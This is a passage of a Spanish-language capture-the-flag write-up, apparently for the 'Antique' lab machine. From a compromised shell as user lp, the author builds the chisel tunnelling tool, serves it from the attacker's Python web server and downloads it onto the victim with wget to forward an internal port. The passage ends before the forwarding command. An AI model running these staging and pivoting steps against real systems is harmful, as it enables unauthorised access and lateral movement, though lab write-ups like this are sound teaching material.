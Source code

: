 >udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                    off (0.00/0/0)
>lp@antique:~$ 
>```
*_Nota:_* En la lista anterios se puede verifar que existe un servicio corriendo internamento en el puerto *_127.0.0.1:631_*; para verificar que servicio esta corriendo de manera interna se puede utilizar la herramienta [chisel](https://github.com/jpillora/chisel), para hacer port forwarding 

>```bash
>git clone https://github.com/jpillora/chisel.git
>Clonando en 'chisel'...
>remote: Enumerating objects: 2057, done.
>remote: Total 2057 (delta 0), reused 0 (delta 0), pack-reused 2057
>Recibiendo objetos: 100% (2057/2057), 3.43 MiB | 3.83 MiB/s, listo.
>Resolviendo deltas: 100% (963/963), listo.
>```
Compilamos el script de chisel, basado el go, y el comando upx para reducir mas el archivo
>```bat
>cd chisel
>go build -ldflags="-s -w" .
>upx chisel
>```
Con el archivo comprimido, y para compartir el archivo con equipo se puede usar un servidor web con python3.

#### Creación servidor web
>```bash
> sudo python3 -m http.server 2106
>```

Desde el servidor web utilizamos la herramienta wget 
#### Descarga de chisel desde un server web
>```bash
>lp@antique:~$ cd /tmp && wget http://10.10.16.5:2106/chisel
>--2022-08-09 05:03:30--  http://10.10.16.5:2106/chisel
>Connecting to 10.10.16.5:2106... connected.
>HTTP request sent, awaiting response... 200 OK
>Length: 3125304 (3.0M) [application/octet-stream]
>Saving to: ‘chisel’
>
>chisel              100%[===================>]   2.98M   767KB/s    in 6.4s    
>
>2022-08-09 05:03:36 (480 KB/s) - ‘chisel’ saved [3125304/3125304]
>
>lp@antique:/tmp$ 
>lp@antique:/tmp$ chmod +x chisel
>lp@antique:/tmp$ ls -la | grep chisel 
>-rwxrwxr-x  1 lp   lp   3125304 Aug  9 04:54 chisel
>```
### Port Forwarding
Para crear el port forwarding, ejecutar el desde el equipo atacante que funcionara como server el siguiente comando:
